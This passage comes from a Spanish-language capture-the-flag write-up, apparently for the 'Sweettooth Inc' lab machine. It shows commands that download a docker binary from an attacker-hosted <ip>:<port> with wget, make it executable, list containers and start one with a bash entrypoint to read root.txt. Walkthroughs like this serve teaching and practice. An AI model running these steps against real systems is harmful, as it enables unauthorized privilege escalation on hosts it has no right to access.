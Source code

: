 <figure><img src="../.gitbook/assets/Sweettooth Inc/docker.png" alt=""><figcaption></figcaption></figure>

```
wget http://<ip>:<port>/docker
```

Le damos privilegios a nuestro binario:

```
chmod +x docker
```

Listamos los contenedores que disponemos:

```
./docker container ls
```

<figure><img src="../.gitbook/assets/Sweettooth Inc/continar.png" alt=""><figcaption></figcaption></figure>

Con el siguiente comando podemos iniciar el contenedor que encontramos y, además, recuperar el archivo `root.txt`.

```
docker run --entrypoint /bin/bash -it --rm sweettoothinc
```

<figure><img src="../.gitbook/assets/Sweettooth Inc/rootcont.png" alt=""><figcaption></figcaption></figure>
